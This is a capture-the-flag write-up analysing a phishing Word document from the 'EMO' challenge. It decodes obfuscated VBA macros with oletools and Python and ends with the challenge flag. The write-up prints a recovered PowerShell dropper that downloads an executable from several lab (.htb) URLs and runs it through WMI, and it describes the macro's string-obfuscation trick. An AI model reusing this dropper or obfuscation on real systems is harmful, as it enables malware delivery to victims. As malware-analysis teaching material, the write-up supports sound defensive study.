






# WRITE_UP #

## EMO ##

### 1. Analysis ###
* **Given:** a doc file named `emo.doc`.
* **Description:** WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### EMO BOI ####
So we were given a doc file, let's use `oletools` to investigate it.

First, I ran `oleid` to see what's wrong with the file:



As you can see, it seems the VBA Macro is highly suspicious. So I run `olevba` to see what VBA code the attacker injected:



The VBA macros is obfuscated heavily, let's break it down slowly:
1. The VBA auto run when the victim open the doc file in `enable editing` mode.
2. The function `Function X4al3i4glox(Gav481k8nh28)` takes a string as input, then do something with the string `][(s)]w` by the func Replace.

Stop right here, scrolled through the malicious vba, I found some strings contain that pattern:

```vb
E6qgao74pfq = "][(s" + ")]wro][(s)]w][(s)]wce][(s)]w" + "s][(s)]ws][(s)]w" + Xta0s1qhuxcif8qqi5
Op93rci3r56v3hsg = "][(s)]w][(s" + ")]w:][(s)]ww][(s)]win][(s)]w][(s)" + "]w3][(s)]w2][(s)]w_][(s)]w" + Jxjv2dzc048yq4alc6
K8dgvsqr6fhbct6v = "][(s)]w][(s)]ww" + "][(s)]wi][(s)]wnm][(s)]w][(s)]" + "wgm][(s)]wt][(s)]w][(s)]w" + Jeo_8i41vkli6

VBA FORM Variable "b'Fwder3b7t4tqrecw'" IN 'emo.doc' - OLE stream: 'Macros/Get4ipjzmjfvp'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
b'][(s)]wP][(s)]w'
-------------------------------------------------------------------------------
VBA FORM Variable "b'Mvskm12if9c843w3'" IN 'emo.doc' - OLE stream: 'Macros/Get4ipjzmjfvp'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
b'][(s)]wtar][(s)]w'
-------------------------------------------------------------------------------
VBA FORM Variable "b'Cn8r2cg8i626ztt'" IN 'emo.doc' - OLE stream: 'Macros/Get4ipjzmjfvp'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
b'][(s)]wtu][(s)]w'
```
Looks like there is some letter inside the pattern we found, however I can't find the variables appended after the string, so I only tried to extract the string `][(s)]w` then I got this:

```vb
E6qgao74pfq = rocess
Op93rci3r56v3hsg = :win32_
K8dgvsqr6fhbct6v = winmgmt
Get4ipjzmjfvp.Fwder3b7t4tqrecw = P
Get4ipjzmjfvp.Mvskm12if9c843w3 = tar
Get4ipjzmjfvp.Cn8r2cg8i626ztt = tu
```
Wow wow wow, that's look crazy sus to me, 99% that's `winmgmt:win32_Process`, so I find all the variable that contains those 3 ones:
```vb
Sd0hj_y8cq79n589qq = K8dgvsqr6fhbct6v + Jv2btd64ezie8rdyer + Op93rci3r56v3hsg + Get4ipjzmjfvp.Fwder3b7t4tqrecw + E6qgao74pfq
``` 
Of course it's `winmgmts:win32_Process`. Tracing through the variable `Sd0hj_y8cq79n589qq`

```vb
Amst4ijfvo1r0b5ium = I51m0kjl96lpdcfhm(Sd0hj_y8cq79n589qq)
' Search for Amst4ijfvo1r0b5ium:
Set Rom9dzby5v3unv8 = CreateObject(Amst4ijfvo1r0b5ium)
' Search for I51m0kjl96lpdcfhm:
Function I51m0kjl96lpdcfhm(St7625txnot)
Sxhaen2_r4b3crptm = Dw75ayd2hpcab6.X4al3i4glox(Swa7jh9qx56op58nf)
I51m0kjl96lpdcfhm = Sxhaen2_r4b3crptm
End Function
' If you do this, you should find the function I51m0kjl96lpdcfhm is longer since it obfuscated, however only these 2 lines contain something meaningful
```
These codes doing exactly what's we just done to decode the obfuscated string, where `X4al3i4glox` to replace the meaningless string to reveal the real data.

I was stuck in here for a quite time to find another string I thought I missed, however I could not find one, however I noticed this line appeared very soon in the macro:

```vb
sss = Dw75ayd2hpcab6.StoryRanges.Item(1)
```

After a research, I acknowledged this line shows the real payload is written in the `main text` section of the `.doc` file, as `Item(1)` is similar to constant `wdMainTextStory` in doc. You can learn more about how this work here:

[Document.StoryRanges property (Word)](https://learn.microsoft.com/en-us/office/vba/api/word.document.storyranges)

[WdStoryType enumeration (Word)](https://learn.microsoft.com/en-us/office/vba/api/word.wdstorytype)

So let's strings the `emo.doc` file to see find the interesting payload:



You can see the same pattern `][(s)]w`, however that's so much to copied by hand, so I use a small python scripts to decode it for me:

```python
import base64
import re

def decode_payload(file_path):
    with open(file_path, "r", encoding="utf-8", errors="ignore") as f:
        raw_data = f.read()

    # find the last noise index appears
    last_noise_idx = raw_data.rfind("(s)")
    if last_noise_idx != -1:
        raw_data = raw_data[:last_noise_idx + 30]
    clean_text = re.sub(r".{2}\(s\).w", "", raw_data)
    clean_text = clean_text.replace("\n", "").replace("\r", "").replace(" ", "")

    print(clean_text)

decode_payload("output.txt")
```



Looks like a base64 strings with that `-ENCOD` flag, so let's upgrade our code by adding these lines in the before printing the payload:

```python
# find base64 strings
    match = re.search(r"-ENCOD(.*)", clean_text, re.IGNORECASE)
    
    if match:
        raw_b64 = match.group(1)
        b64_real = raw_b64[::2] # skip alternating null bytes from UTF-16LE encoding
        
        pad_len = 4 - (len(b64_real) % 4)
        if pad_len != 4:
            b64_real += "=" * pad_len
        
        # decode
        try:
            decoded_bytes = base64.b64decode(b64_real)
            ps1_script = decoded_bytes.decode('utf-16le', errors='ignore')
            
            print("POWERSHELL SCRIPT:")
            print(ps1_script)
        except Exception as e:
            print(f"Error: {e}")
    else:
        print("-ENCOD flag not found.")
```



After formatting, the payload looks like this:
```powershell
$Dir = [System.IO.Directory]
$NetService = [System.Net.ServicePointManager]

$HiddenDir = $HOME + '\Jrbevk4\Ccwr_2h'
$Dir::CreateDirectory($HiddenDir)

$NetService::SecurityProtocol = 'Tls12'
$FN5ggmsH = (182, 187, 229, 146, 231, 177, 151, 149, 166)
$FN5ggmsH += (186, 141, 228, 182, 177, 171, 229, 236, 239, 239, 239, 228, 181, 182, 171, 229, 234, 239, 239, 228)
$FN5ggmsH += (185, 179, 190, 184, 229, 151, 139, 157, 164, 235, 177, 239, 171, 183, 236, 141, 128, 187, 235, 134, 128, 158, 177, 176, 139)
$FN5ggmsH += (183, 154, 173, 128, 175, 151, 238, 140, 183, 162, 228, 170, 173, 179, 229)

$ExePath = $HiddenDir + '\Ale7g_8.exe'
$ConfPath = $HiddenDir + '\Ale7g_8.conf'

$WebClient = New-Object Net.WebClient
$UrlList = @(
    "http://da-industrial.htb/js/9IdLP/",
    "http://daprofesional.htb/data4/hWgWjTV/",
    "https://dagranitegiare.htb/wp-admin/tV/",
    "http://www.outspokenvisions.htb/wp-includes/aWoM/",
    "http://mobsouk.htb/wp-includes/UY30R/",
    "http://biglaughs.htb/smallpotatoes/Y/",
    "https://ngllogistics.htb/adminer/W3mkB/"
)

foreach ($url in $UrlList) {
    try {
        $WebClient.DownloadFile($url, $ExePath)

        if ((Get-Item $ExePath).Length -ge 45199) {    
            $url.ToCharArray() | ForEach-Object {
                $FN5ggmsH += ([byte][char]$_ -bxor 0xdf)
            }
            $FN5ggmsH += 228
            
            [Convert]::ToBase64String($FN5ggmsH) | Out-File $ConfPath
            ([wmiclass]'win32_Process').Create($ExePath)
                        break
        }
    } catch {}
}
```

The payload try to download an `.exe` from 7 different urls. However let's take a glance at the variable `$FN5ggmsH`

The malware takes the url, xor each character of that url with `0xdf`, and appends it to the `$FN5ggmsH` array. Finally, it adds `228` to the end, base64 encode the entire array, and saves it as a config file:

```powershell 
[Convert]::ToBase64String($FN5ggmsH) | Out-File $ConfPath
```


This highly recommends that number array assigned in `$FN5ggmsH` are also being xor with the same key. We can try this idea:

```powershell
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

$decoded = ""
foreach ($number in $FN5ggmsH){
    $decoded += [char]($number -bxor 0xdf)
}
Write-Host "$decoded"
```



## 3. Solution ##
1. **Result:** The flag is `HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}`


